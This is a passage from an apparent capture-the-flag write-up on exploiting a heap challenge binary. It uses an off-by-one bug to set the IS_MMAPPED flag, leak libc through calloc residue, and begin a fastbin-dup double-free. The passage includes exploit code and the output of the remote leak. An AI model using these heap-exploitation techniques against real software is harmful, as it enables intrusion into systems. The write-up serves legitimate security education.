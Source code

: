 The trick revolves around a chunk's `IS_MMAPED` flag being set; if present,
`calloc` will not zero out the chunk's user data after allocation because it
assumes the chunk has been allocated via `mmap()` which also zeroes out data.

The least significant nybble of a chunk's size field is not taken into account
for its size. Rather, it's used to set various flags. These are:  
- PREV_INUSE   
- IS_MMAPPED   
- NON_MAIN_ARENA

Hence, we can use the off-by-one bug in the Edit Testament functionality to
increase the size of a free'd chunk's size field, setting the
`IS_MMAPED_FLAG`. This means that if another chunk with the same size is
allocated, `calloc` will not zero out any data already present, and the Create
Testament functionality will print out residual data. This can be used to leak
a libc address:

```python  
# =-=-=- Set IS_MMAPPED_FLAG =-=-=-

# Create 0x20-sized chunk to overflow  
overflow = create(1, 'overflow')

# create 0x90-sized chunk to leak and free it into unsortedbin  
# create 0x70-sized top chunk guard to protect against  
# consolidation and use later for fastbin dup  
leaker = create(4, 'leaker')  
guard = create(3, 'guard')  
delete(leaker)

# Set IS_MMAPPED  
edit(overflow, '24')

# Assign new 0x90-sized chunk and leak libc  
# we're leaking unsortedbin BK (NOT fd)  
leaker, libc_leak = create(4, 'leakerr', leak=True)  
libc_leak = uu64(libc_leak.strip())  
libc.address = libc_leak - 0x3c4b78  
log_addr('Libc leak', libc_leak)  
log_addr('Libc base', libc.address)  
```

And we successfully leak a libc address on the remote binary and resolve its
libc base address.  
```  
[+] Opening connection to onetestament.insomnihack.ch  
[*] Libc leak: 0x7f91f59acb78  
[*] Libc base: 0x7f91f55e8000

```

### Fastbin dup  
Now that we have a libc address, we can leverage the second off-by-one bug to
carry out a fastbin dup via a double-free. We just need to make sure we
overflow the `optionBuf` global variable to bypass the pseudo double-free
check by sending `'00004'` as the chunk index.
